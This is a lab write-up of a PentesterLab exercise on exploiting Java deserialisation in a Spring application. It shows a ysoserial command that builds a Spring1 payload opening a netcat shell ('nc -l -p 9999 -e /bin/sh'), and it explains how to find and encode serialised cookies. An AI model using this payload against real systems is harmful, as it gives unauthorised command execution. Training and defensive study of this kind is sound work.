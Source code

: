 # Pentesterlab Serialize Badge/ObjectInputStream

> Saikat Karmakar | Sept 8 : 2021

---

## Introduction

This course details the exploitation of a Spring application that uses serialised Java objects. When a Java application unserialises arbitrary data, it is possible for an attacker to trigger unexpected behaviours in the application and even gain command execution.

## readObject()

The root cause of this issue comes from the fact that the application uses the method readObject() on data coming from the user. However, this is only one part of the problem. In Java (as opposed to Python for example), the path from unserialise to code execution is not obvious. To gain code execution, a suit of gadgets need to be found in the libraries loaded by the application. Some security researchers are currently finding a lot of these gadgets in common libraries and getting them fixed. These libraries are not directly vulnerable, but they allow the exploitation of an application using readObject and loading them.

## Exploitation of this vulnerability

The tool [ysoserial](https://github.com/frohoff/ysoserial) can be used to exploit this issue. You can find a copy of the version 0.0.4 that works best for this challenge [here](https://www.pentesterlab.com/exercises/objectinputstream/attachments). This tool allows an attacker to build malicious Java object that will provide command execution.

This tool currently embeds gadgets for the following libraries:

```bash
% java -jar ysoserial-0.0.4-all.jar 
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'
  Available payload types:
    CommonsBeanutilsCollectionsLogging1 [commons-beanutils:commons-beanutils:1.9.2, commons-collections:commons-collections:3.1, commons-logging:commons-logging:1.2]
    CommonsCollections1 [commons-collections:commons-collections:3.1]
    CommonsCollections2 [org.apache.commons:commons-collections4:4.0]
    CommonsCollections3 [commons-collections:commons-collections:3.1]
    CommonsCollections4 [org.apache.commons:commons-collections4:4.0]
    Groovy1 [org.codehaus.groovy:groovy:2.3.9]
    Jdk7u21 []
    Spring1 [org.springframework:spring-core:4.1.4.RELEASE, org.springframework:spring-beans:4.1.4.RELEASE]
```

Here we know that it is a Spring application, therefore we can use the `Spring1`payload. If we didn't have this information, we would have to try all the payloads and hope that a "vulnerable" library is loaded by the application.

We can get `ysoserial` to generate our payload using:

```bash
java -jar ysoserial-0.0.4-all.jar Spring1 "/usr/bin/nc -l -p 9999 -e /bin/sh" 
```
Now we need to find where the serialized object is used. A good indicator is the string rO0, which is the base64 encoded version of `\xac\xed\x00`. Since serialised Java objects contain a lot of special characters, it's very common for them to get encoded before being transmitted over HTTP.

Once you find where a serialised Java object is used, you will need to base64-encode your payload. You can do this by using the base64 command. If you're on Linux, you can use `base64 -w 0` to avoid new lines.

You can also try to exploit this issue with the Burp Extension JavaSerialKiller.
Conclusion

This exercise demonstrates how you can get code execution if an application uses `readObject()` and contain a "vulnerable" library. Unserializing user-controlled data is never a good idea and should be avoided. I hope you enjoyed learning with PentesterLab.


## Detection 
cookie 

```
rO0ABXNyAA92dWxuZXJhYmxlLlVzZXI5zyo_QTFh_wIAAUwACHVzZXJuYW1ldAASTGphdmEvbGFuZy9TdHJpbmc7eHB0AAR0ZXN0
```

`r00` at front means java serialised object.